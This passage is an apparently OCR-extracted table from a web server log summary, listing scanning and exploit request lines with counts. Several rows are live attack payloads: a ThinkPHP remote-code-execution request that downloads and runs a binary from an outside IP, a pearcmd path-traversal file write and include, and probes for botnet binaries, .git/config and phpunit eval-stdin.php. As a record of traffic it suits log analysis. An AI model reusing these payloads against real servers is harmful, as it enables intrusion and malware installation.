 |  54 |                     6 | GET /nabx86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  55 |                     6 | GET /LjEZs/uYtea.sh4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  56 |                     6 | GET /main_arm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  57 |                     6 | GET /config/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  58 |                     6 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                            |
|  59 |                     6 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  60 |                     6 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  61 |                     6 | GET /login.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  62 |                     6 | GET /demo/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |